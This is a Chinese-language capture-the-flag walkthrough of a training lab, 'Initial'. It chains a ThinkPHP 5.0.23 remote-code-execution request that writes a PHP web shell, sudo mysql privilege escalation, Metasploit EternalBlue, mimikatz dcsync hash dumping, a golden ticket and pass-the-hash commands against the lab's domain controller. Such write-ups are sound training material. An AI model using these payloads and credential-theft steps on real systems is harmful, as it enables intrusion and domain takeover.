


# 春秋云镜-Initial

## 靶场描述

Initial是一套难度为简单的靶场环境，完成该挑战可以帮助玩家初步认识内网渗透的简单流程。该靶场只有一个flag，各部分位于不同的机器上。

## 网络结构

这个第一次做，只会个大致。

过程地址可能会不一样，我开了几次。


## getshell

网站是tp5.0.23


写马

```
http://39.99.147.177/index.php?s=captcha

POST：
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]= echo "<?php echo "123";@eval(\$_POST[1]);?>" > eek.php
```

连蚁剑

发现是www-data权限

## 内网提权

```
find / -perm -u=s -type f 2>/dev/null
```

查看，找利用点

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/su
/usr/bin/at
/usr/bin/chsh
/usr/bin/stapbpf
/usr/bin/staprun
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

这里有sudo，看看能不能利用

sudo -l就是列出目前用户可执行与无法执行的指令


用mysql的提权

```
sudo mysql -e '\! ls /root'
sudo mysql -e '\! ls /root/flag'
sudo mysql -e '\! cat /root/flag/fl*'
```


```
flag01: flag{60b53231-
```

## 信息收集

这里上传fsacn然后扫内网

```
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.21     is alive
(icmp) Target 172.22.1.18     is alive
[*] Icmp alive hosts len is: 4
172.22.1.15:22 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.18:139 open
172.22.1.21:139 open
172.22.1.2:139 open
172.22.1.18:135 open
172.22.1.21:135 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.18:3306 open
172.22.1.2:88 open
172.22.1.21:445 open
[*] alive ports len is: 14
start vulscan
[+] 172.22.1.21	MS17-010	(Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] 172.22.1.2  (Windows Server 2016 Datacenter 14393)
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] NetBios: 172.22.1.21     XIAORANG-WIN7.xiaorang.lab          Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetBios: 172.22.1.2      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
[*] WebTitle: http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetBios: 172.22.1.18     XIAORANG-OA01.xiaorang.lab          Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.1.18        code:302 len:0      title:None 跳转url: http://172.22.1.18?m=login
[*] WebTitle: http://172.22.1.18?m=login code:200 len:4012   title:信呼协同办公系统
[+] http://172.22.1.15 poc-yaml-thinkphp5023-method-rce poc1

```

frp开个代理

## OA系统

扫到http://172.22.1.18，访问弱口令进去

```
admin/admin123
```

getshell

https://www.163.com/dy/article/GMR9UNG205319Y7J.html

这里有个后台getshell

上传文件然后bp获取地址和id


然后相对应的id

```
http://172.22.1.18/task.php?m=qcloudCos|runt&a=run&fileid=13
```

然后再访问php文件

```
http://172.22.1.18/upload/2023-07/25_17414337.php
```

上蚁剑


在桌面找到个flag2



```
flag02: 2ce3-4813-87d4-
```

提示打域，这里上线cs，而且是管理员权限


## ms17_010

这里我代理到物理机，物理机装了个msf，然后就用msf打。

刚才扫描看到了ms17-010，用msf打msf17-010

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp_uuid
payload => windows/x64/meterpreter/bind_tcp_uuid
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.22.1.21
RHOSTS => 172.22.1.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```


这里没有flag，想办法打172.22.1.2

解决乱码

```
chcp 65001
```

## 域间渗透

信息收集


exit退出，猕猴桃读（ 导出域内所有用户的信息(包括哈希值)），然后抓hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit 
```


生成黄金票据

```
生成
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /user:krbtgt
```



```
导入
kiwi_cmd kerberos::golden /user:administrator /domain:xiaorang.lab /sid:S-1-5-21-314492864-3856862959-4045974917-502 /krbtgt:fb812eea13a18b7fcdb8e6d67ddc205b /ptt
```

wmic哈希传递（这里的10cf89a850fb1cdbe6bb432b859164c8是猕猴桃抓到的）

```
proxychains wmic -hashes :10cf89a850fb1cdbe6bb432b859164c8 xiaorang/administrator@172.22.1.2 
```


找flag


flag

```
e8f88d0d43d6}
```

合起来

```
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```

## 补充打法

### proxychains 代理

```
root@kali:/etc# vim /etc/proxychains.conf 
```


### crackmapexec

这里要通过猕猴桃获取administrator的hash

```
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```


crackmapexec进行hash传递攻击

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```


```
e8f88d0d43d6}
```

